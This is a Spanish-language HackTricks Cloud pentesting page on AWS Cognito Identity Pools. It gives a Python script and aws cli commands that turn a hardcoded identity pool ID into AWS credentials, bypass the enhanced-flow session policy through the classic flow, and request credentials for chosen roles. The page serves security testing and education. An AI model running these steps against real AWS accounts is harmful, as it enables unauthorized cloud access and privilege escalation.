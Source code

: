 # Piscinas de Identidad de Cognito

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop).
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de Telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

## Información básica

Con una piscina de identidad, tus usuarios pueden **obtener credenciales temporales de AWS para acceder a los servicios de AWS**, como Amazon S3 y DynamoDB. Las piscinas de identidad admiten usuarios invitados anónimos, así como los siguientes proveedores de identidad que puedes utilizar para autenticar usuarios en las piscinas de identidad:

* Piscinas de usuarios de Amazon Cognito
* Inicio de sesión social con Facebook, Google, Inicio de sesión con Amazon y Inicio de sesión con Apple
* Proveedores de OpenID Connect (OIDC)
* Proveedores de identidad SAML
* Identidades autenticadas por desarrollador

### Cognito Sync

Para generar sesiones de piscina de identidad, primero necesitas **generar un ID de identidad**. Este ID de identidad es la **identificación de la sesión de ese usuario**. Estas identificaciones pueden tener hasta 20 conjuntos de datos que pueden almacenar hasta 1 MB de pares clave-valor.

Esto es **útil para mantener información de un usuario** (que siempre estará utilizando el mismo ID de identidad).

Además, el servicio **cognito-sync** es el servicio que permite **administrar y sincronizar esta información** (en los conjuntos de datos, enviando información en flujos y mensajes SNS...).

## Acceso a roles de IAM

### Sin autenticación

Lo único que un atacante necesita saber para **obtener credenciales de AWS** en una aplicación de Cognito como usuario no autenticado es el **ID de la piscina de identidad**, y este **ID debe estar codificado en el código fuente** de la aplicación web/móvil para que lo utilice. Un ID se ve así: `eu-west-1:098e5341-8364-038d-16de-1865e435da3b` (no se puede obtener por fuerza bruta).

{% hint style="success" %}
El **rol sin autenticación de IAM Cognito creado a través de** se llama por defecto `Cognito_<nombre de la piscina de identidad>Unauth_Role`
{% endhint %}

Si encuentras un ID de piscina de identidad codificado en el código fuente y permite usuarios no autenticados, puedes obtener credenciales de AWS con:
```python
import requests

region = "us-east-1"
id_pool_id = 'eu-west-1:098e5341-8364-038d-16de-1865e435da3b'
url = f'https://cognito-identity.{region}.amazonaws.com/'
headers = {"X-Amz-Target": "AWSCognitoIdentityService.GetId", "Content-Type": "application/x-amz-json-1.1"}
params = {'IdentityPoolId': id_pool_id}

r = requests.post(url, json=params, headers=headers)
json_resp = r.json()

if not "IdentityId" in json_resp:
print(f"Not valid id: {id_pool_id}")
exit

IdentityId = r.json()["IdentityId"]

params = {'IdentityId': IdentityId}

headers["X-Amz-Target"] = "AWSCognitoIdentityService.GetCredentialsForIdentity"
r = requests.post(url, json=params, headers=headers)

print(r.json())
```
O también puedes usar los siguientes comandos **aws cli**:
```bash
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign
aws cognito-identity get-credentials-for-identity --identity-id <identity_id> --no-sign
```
{% hint style="warning" %}
Ten en cuenta que de forma predeterminada, un usuario de Cognito sin autenticar NO TIENE ningún permiso, incluso si se le asignó mediante una política. Verifica la siguiente sección.
{% endhint %}

### Flujo de autenticación mejorado vs básico

La sección anterior siguió el flujo de autenticación mejorado predeterminado. Este flujo establece una política de sesión restrictiva para la sesión del rol IAM generada. Esta política solo permitirá que la sesión use los servicios de esta lista (incluso si el rol tenía acceso a otros servicios).

Sin embargo, hay una forma de evitar esto. Si el grupo de identidades tiene habilitado el "Flujo básico (clásico)", el usuario podrá obtener una sesión utilizando ese flujo que no tendrá esa política de sesión restrictiva.

{% code overflow="wrap" %}
```bash
# Get auth ID
aws cognito-identity get-id --identity-pool-id <identity_pool_id> --no-sign

# Get login token
aws cognito-identity get-open-id-token --identity-id <identity_id> --no-sign

# Use login token to get IAM session creds
## If you don't know the role_arn use the previous enhanced flow to get it
aws sts assume-role-with-web-identity --role-arn "arn:aws:iam::<acc_id>:role/<role_name>" --role-session-name sessionname --web-identity-token <token> --no-sign
```
{% endcode %}

{% hint style="warning" %}
Si recibes este **error**, es porque el **flujo básico no está habilitado (por defecto)**

`An error occurred (InvalidParameterException) when calling the GetOpenIdToken operation: Basic (classic) flow is not enabled, please use enhanced flow.`
{% endhint %}

Teniendo un conjunto de credenciales IAM, debes verificar [a qué acceso tienes](../../#whoami) e intentar [elevar privilegios](../../aws-privilege-escalation/).

### Autenticado

{% hint style="info" %}
Recuerda que los **usuarios autenticados** probablemente tengan **permisos diferentes**, así que si puedes **registrarte dentro de la aplicación**, intenta hacerlo y obtener las nuevas credenciales.
{% endhint %}

También podría haber **roles** disponibles para **usuarios autenticados que acceden al Identity Pool**.

Para esto, es posible que necesites tener acceso al **proveedor de identidad**. Si ese es un **Cognito User Pool**, tal vez puedas abusar del comportamiento predeterminado y **crear un nuevo usuario tú mismo**.

{% hint style="success" %}
El **rol autenticado IAM Cognito creado a través de** se llama por defecto `Cognito_<Nombre del Identity Pool>Auth_Role`
{% endhint %}

De todos modos, el **siguiente ejemplo** espera que ya hayas iniciado sesión en un **Cognito User Pool** utilizado para acceder al Identity Pool (no olvides que también se pueden configurar otros tipos de proveedores de identidad).

<pre class="language-bash"><code class="lang-bash">aws cognito-identity get-id \
--identity-pool-id &#x3C;identity_pool_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;TU_USER_POOL_ID>=&#x3C;ID_TOKEN>

# Obtén el identity_id de la respuesta del comando anterior
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
--logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;TU_USER_POOL_ID>=&#x3C;ID_TOKEN>


# En el IdToken puedes encontrar los roles a los que un usuario tiene acceso debido a los grupos del User Pool
# Usa --custom-role-arn para obtener credenciales para un rol específico
aws cognito-identity get-credentials-for-identity \
--identity-id &#x3C;identity_id> \
<strong>    --custom-role-arn &#x3C;role_arn> \
</strong>    --logins cognito-idp.&#x3C;region>.amazonaws.com/&#x3C;TU_USER_POOL_ID>=&#x3C;ID_TOKEN>
</code></pre>

{% hint style="warning" %}
Es posible **configurar diferentes roles IAM dependiendo del proveedor de identidad** con el que el usuario inicie sesión o incluso solo **dependiendo del usuario** (usando claims). Por lo tanto, si tienes acceso a diferentes usuarios a través del mismo o diferentes proveedores, podría valer la pena **iniciar sesión y acceder a los roles IAM de todos ellos**.
{% endhint %}

<details>

<summary><strong>¡Apoya a HackTricks y obtén beneficios!</strong></summary>

* Si quieres ver tu **empresa anunciada en HackTricks** o si quieres acceder a la **última versión de PEASS o descargar HackTricks en PDF**, ¡consulta los [**PLANES DE SUSCRIPCIÓN**](https://github.com/sponsors/carlospolop)!
* Obtén el [**oficial PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Descubre [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nuestra colección exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Únete al** 💬 [**grupo de Discord**](https://discord.gg/hRep4RUj7f) o al [**grupo de telegram**](https://t.me/peass) o **sígueme** en **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Comparte tus trucos de hacking enviando PRs a los repositorios de** [**HackTricks**](https://github.com/carlospolop/hacktricks) y [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github.

</details>

